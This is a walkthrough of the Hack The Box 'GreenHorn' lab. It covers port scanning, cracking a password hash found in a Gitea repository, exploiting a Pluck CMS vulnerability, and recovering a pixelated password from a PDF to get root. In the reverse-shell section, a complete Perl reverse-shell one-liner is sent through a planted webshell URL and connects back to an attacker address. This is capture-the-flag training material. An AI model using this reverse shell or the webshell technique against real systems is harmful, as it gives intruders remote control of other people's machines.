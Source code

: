 ![](images/image0.png)

# GreenHorn HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.231.80 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.80 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.80 -v --script vuln -oN nmap_vuln.txt
```

![](images/image2.png)

On port **80** we see that it is a **Pluck CMS 4.7.18** page.

![](images/image1.png)

Clicking on **admin**, we also see a login form that requires a password.

![](images/image8.png)

On port **3000** there is a **Gitea instance**.

![](images/image9.png)

---

## Gitea Enumeration

Checked the repositories and found interesting source files.

![](images/image16.png)
![](images/image6.png)
![](images/image10.png)

We cracked the `pass.php` hash to retrieve a password:

```bash
john --wordlist=rockyou.txt hash.txt --format=Raw-SHA512
```

![](images/image18.png)

Logged in with the found credentials — success.

![](images/image15.png)

---

## Exploiting Pluck CMS (CVE-2023-50564)

Found reference to the vulnerability and exploit:

🔗 [https://github.com/xpltive/CVE-2023-50564](https://github.com/xpltive/CVE-2023-50564)

![](images/image11.png)

Executed exploit and gained a shell.

![](images/image4.png)
![](images/image5.png)

---

## Reverse Shell via Perl

Confirmed that **Perl** is installed.

![](images/image14.png)

Triggered remote Perl reverse shell using:

```
http://greenhorn.htb/data/modules/malicious/malicious.php?cmd=perl -e 'use Socket;$i="10.10.15.30";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

![](images/image12.png)

---

## Privilege Escalation

Switched to **junior** using password reuse.

![](images/image13.png)

Next to the user flag we found a **PDF file**:

![](images/image3.png)

The PDF contained hidden content that appeared obfuscated.

![](images/image20.png)

Extracted embedded images using:

```bash
pdfimages 'Using OpenVAS.pdf' greenhorn
```

![](images/image19.png)

Used depixelization technique to reveal the hidden password.

🔗 [https://github.com/spipm/Depixelization_poc](https://github.com/spipm/Depixelization_poc)

```bash
python3 depix.py -p ../greenhorn-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png
```

![](images/image17.png)
![](images/image7.png)

It worked — we are **root**!  
Root flag is at `/root/root.txt`.

---

